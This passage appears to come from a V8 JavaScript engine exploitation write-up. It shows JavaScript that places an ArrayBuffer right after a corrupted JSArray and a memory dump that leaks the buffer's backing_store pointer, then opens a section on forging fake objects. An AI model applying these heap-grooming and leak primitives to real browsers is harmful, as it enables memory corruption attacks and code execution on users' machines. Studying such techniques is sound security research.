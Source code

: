Now to leak the `ArrayBuffer`'s data, it's very easy. Just allocate it right after the second `JSArray`.

```js
let arr = new Array(MAGIC,MAGIC,MAGIC);
arr2 = Array.of(1.2); // allows to put the JSArray *before* the fixed arrays
ab = new ArrayBuffer(AB_LENGTH);
```

This way, we get the following memory layout : 

```text
----- [ FIXED_DOUBLE_ARRAY_TYPE : 0x28 ] -----
0x00003a4d7608bb48    0x000023fe25c01451    MAP_TYPE    
0x00003a4d7608bb50    0x0000000300000000    
0x00003a4d7608bb58    0x3ff199999999999a    arr[0]
0x00003a4d7608bb60    0x3ff199999999999a    
0x00003a4d7608bb68    0x3ff199999999999a    
----- [ JS_ARRAY_TYPE : 0x20 ] -----
0x00003a4d7608bb70    0x000034dc44482d41    MAP_TYPE    
0x00003a4d7608bb78    0x000023fe25c00c19    FIXED_ARRAY_TYPE    
0x00003a4d7608bb80    0x00003a4d7608bba9    FIXED_DOUBLE_ARRAY_TYPE    
0x00003a4d7608bb88    0x0000006400000000    
----- [ FIXED_ARRAY_TYPE : 0x18 ] -----
0x00003a4d7608bb90    0x000023fe25c007a9    MAP_TYPE    
0x00003a4d7608bb98    0x0000000100000000    
0x00003a4d7608bba0    0x000023fe25c005a9    ODDBALL_TYPE    
----- [ FIXED_DOUBLE_ARRAY_TYPE : 0x18 ] -----
0x00003a4d7608bba8    0x000023fe25c01451    MAP_TYPE    
0x00003a4d7608bbb0    0x0000000100000000    
0x00003a4d7608bbb8    0x3ff3333333333333    arr2[0]
----- [ JS_ARRAY_BUFFER_TYPE : 0x40 ] -----
0x00003a4d7608bbc0    0x000034dc444821b1    MAP_TYPE    
0x00003a4d7608bbc8    0x000023fe25c00c19    FIXED_ARRAY_TYPE    
0x00003a4d7608bbd0    0x000023fe25c00c19    FIXED_ARRAY_TYPE    
0x00003a4d7608bbd8    0x0000000000000100    
0x00003a4d7608bbe0    0x0000556b8fdaea00    ab's backing_store pointer!
0x00003a4d7608bbe8    0x0000000000000002    
0x00003a4d7608bbf0    0x0000000000000000    
0x00003a4d7608bbf8    0x0000000000000000   
```

We can simply use the corrupted `JSArray` (`arr2`) to read the `ArrayBuffer` (`ab`).  This will be useful later because memory pointed to by the `backing_store` is fully controlled by us, as we can put arbitrary data in it, through a data view (like a `Uint32Array`).

Now that we know a pointer to some fully controlled content, let's go to step 2!

## Step 2 : Getting a fake object

Arrays of `PACKED_ELEMENTS` can contain tagged pointers to JavaScript objects. For those unfamiliar with v8, the `elements kind` of a JsArray in v8 gives information about the type of elements it is storing.  [Read this if you want to know more about elements kind](https://v8.dev/blog/elements-kinds).
